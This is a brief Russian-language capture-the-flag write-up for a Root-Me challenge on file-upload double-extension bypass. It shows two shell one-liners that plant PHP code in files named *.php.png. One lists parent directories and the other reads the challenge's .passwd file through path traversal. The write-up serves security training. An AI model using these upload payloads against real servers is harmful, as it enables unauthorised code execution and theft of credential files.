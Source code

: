 <--https://www.root-me.org/en/Challenges/Web-Server/File-upload-Double-extensions-->

1. Из названия понятно, что проверяется расширение файла. Эмпирическим путем я выявил, что из двух вариантов name.php.png и name.png.php подходит первое.
2. Сам файл может содержать только php-code, осталось его написать. Однако изначально я оставлял MIME от png, поэтому использовал нетривиальный подход:
3. Итак, для начала я убедился, в какой дирректории лежит passwd:
  ```echo "<?php \$files = scandir('../../../'); foreach (\$files as \$file) { echo \$file; } ?>" >> 123.png && mv 123.png 4.php.png```
4. Далее я прочитал файл:
  ```echo "<?php \$section=file_get_contents('../../../.passwd'); var_dump(\$section); ?>" >> 123.png && mv 123.png answer.php.png```
5. Ответ получен
